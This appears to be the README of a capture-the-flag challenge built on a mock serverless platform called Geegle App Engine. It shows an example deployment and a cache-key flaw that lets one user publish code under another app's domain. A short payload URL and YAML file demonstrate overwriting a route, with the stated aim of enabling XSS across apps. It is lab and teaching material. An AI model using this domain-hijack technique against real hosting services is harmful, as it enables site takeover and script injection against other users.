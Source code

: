 # gae (Geegle App Engine)

Like Amazon Lambda. Deploy your website without worrying about VM/containers.

To use this infra, you only need to submit short pieces of code for python functions, see the following example.

The environment is sandboxed.

**Feel free to write other services using this infra**

## How-To

Example deploy:
```
---
urls:
  "/": |-
    gae_rsp = gaeutils.make_response("Hello World")
  "/ping": |-
    gae_rsp = gaeutils.make_response("Pong")
  "/add": |-
    num_a = int(request.args.get("a"))
    num_b = int(request.args.get("b"))
    gae_rsp = gaeutils.make_response("Answer is " + str(num_a + num_b))
  "/error": |-
    gae_rsp = gaeutils.errorpage("Oops our server has fallen asleep")
  "/redirect": |-
    gae_rsp = gaeutils.redirect("https://www.adamyi.com/")
  "/json": |-
    gae_rsp = gaeutils.make_response(gaeutils.json_encode({"json": "is_easy"}))
default_handler: |-
  gae_rsp = gaeutils.errorpage("The requested URL %s was not found on this server." % request['path'], code=404)
```

## Vulnerability

Could deploy functions to any domains due to wrong caching rules.

**Please test if there are any other unintended vulns (user authentication is yet to add, main focus: bypass sandbox, DoS)**

**Normal User**
Domain: example
Path: helloworld

Cache Key: example.apps.geegle.org/helloworld

**Hacker**
Domain: example.apps.geegle.org/haha
Path: lmao

Cache Key: example.apps.geegle.org/haha.apps.geegle.org/lmao

**This would make XSS possible on all GAE apps**

## Payload

Visit http://manage.apps.geegle.org:8056/edit?app=test1.apps.geegle.org:8056/haha

```
---
urls:
  "/test": |-
    gae_rsp = gaeutils.make_response("hacked")
default_handler: |-
  gae_rsp = gaeutils.errorpage("The requested URL %s was not found on this server." % request['path'], code=404)
```

http://test1.apps.geegle.org:8056/haha.apps.geegle.org:8056/test becomes hacked

## author
adamyi
